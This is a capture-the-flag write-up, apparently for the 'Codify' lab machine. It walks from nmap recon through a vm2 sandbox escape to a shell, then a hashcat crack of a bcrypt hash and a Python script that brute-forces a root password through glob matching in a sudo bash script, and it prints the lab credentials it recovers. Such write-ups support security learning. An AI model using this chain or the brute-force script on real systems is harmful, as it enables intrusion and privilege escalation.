## Machine Info



## Recon

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 80, 3000: http nodejs

## Foothold

### vm3 sandbox escape

- enum: vm3, sandbox, nodejs(javascript)





- vm3, restricted sandbox



- search sploit online



- **[Sandbox Escape in vm2@3.9.16 (github.com)](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)**

- RCE PoC



- get shell



## Privilege Escalation





### svc -> joshua

- enum db file



- check details inside this db file and find cred





- crack this hash -> **joshua:spongebob1**

```bash
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
$ hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
```





### joshua -> root

- `sudo -l`



- `if [[ $DB_PASS == $USER_PASS ]]; then` -> **pattern match** (**Ref**: [shellharden/how_to_do_things_safely_in_bash.md at master · anordal/shellharden (github.com)](https://github.com/anordal/shellharden/blob/master/how_to_do_things_safely_in_bash.md))



- So, input `*` for matching all strings



- failed to check dumped db file [x]



- **brute force** **DB_PASS** based on this logical vuln of this script

```python
import string
import subprocess

cred = ""
found = False

while not found:
    for char in string.ascii_letters + string.digits:
        test = cred + char + "*"
        cmd = f"echo {test} | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE).stdout.decode("utf-8")
        if "Password confirmed!" in output:
            cred += str(char)
            print(f"[*] find the {len(cred)} th char: {char}")
            break
    else:
        found = True
        
print(f"DB_PASS: {cred}")
```



- get cred: **root:kljh12k3jhaskjh12kjh3**



## Exploit Chain

vm2 sandbox esacping -> rce -> get svc shell -> sensitive db file leakage -> crack pass hash -> get joshua shell -> misconfig sudo script -> brute force root pass -> root shell
